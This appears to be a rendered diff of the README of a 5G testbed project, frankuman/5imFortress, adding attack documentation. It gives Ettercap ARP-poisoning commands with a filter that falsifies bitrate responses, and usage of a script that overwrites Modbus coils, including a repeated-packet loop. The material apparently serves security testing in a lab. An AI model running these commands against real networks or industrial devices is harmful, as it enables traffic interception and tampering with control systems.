

Before and after one commit to frankuman/5imFortress, a Markdown page: README.md, the part around one of its changes. Shown at 81% size. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/README.md
+++ b/README.md
@@ -165,15 +167,71 @@ The graph provides a visual representation of the bitrate for each tower over th
 
 Feel free to explore these features to optimize the performance and configuration of the 5G towers within the system.
 
-### MiTM with Ettercap
+## MiTM with Ettercap
 
+To perform a Man-in-the-Middle (MiTM) attack with Ettercap, follow these steps:
 
-### GigaAttacker
-GigaAttacker.py is a simple script that sends modbus packets to change coils, it also has a loop function if multiple packets are to be sent.
-`python gigattacker.py -h` for help options
-Examples:
-`python gigaattacker.py -write-coil -addr 1 -val 0 -ip 192.168.0.100 -p 502` writes the coil on register 1 with value 0 for the ip 192.168.0.100 on port 502
-`python gigaattacker -write-coil -addr 1 -val 0 -ip 192.168.0.100 -loop 1000 -t 0.5` does the same as above but 1000 times with a timeout of 0.5 seconds
+1. **Download and Install Ettercap**
+
+   Make sure to have Ettercap installed on your system. On Ubuntu, use the following command:
+
+   ```bash
+   sudo apt-get install ettercap
+   ```
+
+2. **Download Ettercap Filter**
+
+   Download the Ettercap filter named `bitrate_response.filter`. Move the filter to the Ettercap directory:
+
+   ```bash
+   sudo mv bitrate_response.filter /usr/share/ettercap
+   ```
+
+3. **Compile the Filter**
+
+   Open a terminal in the `/usr/share/ettercap` directory and run the following commands:
+
+   ```bash
+   sudo etterfilter -o bitrate_response.ef bitrate_response.filter
+   ```
+
+4. **Initiate ARP Poisoning**
+
+   In the same terminal, execute the following command to start ARP poisoning. Replace `YOUR_NIC`, `FIRST_IP_SPOOF`, and `SECOND_IP_SPOOF` with your network interface card, first IP for spoofing, and second IP for spoofing respectively:
+
+   ```bash
+   sudo ettercap -T -i YOUR_NIC -F bitrate_response.ef -q -M arp /FIRST_IP_SPOOF// /SECOND_IP_SPOOF// -V hex
+   ```
+
+   This filter alters the bitrate response from the slave to 1337. Modify the filter to adjust values, IP addresses, and ports as needed.
+
+## GigaAttacker
+
+`GigaAttacker.py` is a Python script for sending modbus packets to manipulate coils. It includes a loop function for sending multiple packets.
+
+### Usage:
+
+Run the script using the following command:
+
+```bash
+python GigaAttacker.py -h
+```
+
+#### Examples:
+
+1. Write a coil on register 1 with value 0 for the IP 192.168.0.100 on port 502:
+
+   ```bash
+   python GigaAttacker.py -write-coil -addr 1 -val 0 -ip 192.168.0.100 -p 502
+   ```
+
+2. Write a coil on register 1 with value 0 for the IP 192.168.0.100, repeating 1000 times with a timeout of 0.5 seconds:
+
+   ```bash
+   python GigaAttacker.py -write-coil -addr 1 -val 0 -ip 192.168.0.100 -loop 1000 -t 0.5
+   ```
+
+Feel free to customize the script parameters based on your requirements.
 
 ## Known Issues
 Known issues will be presented here
````
Also changed, not shown: other parts of README.md (+5 -3 lines).
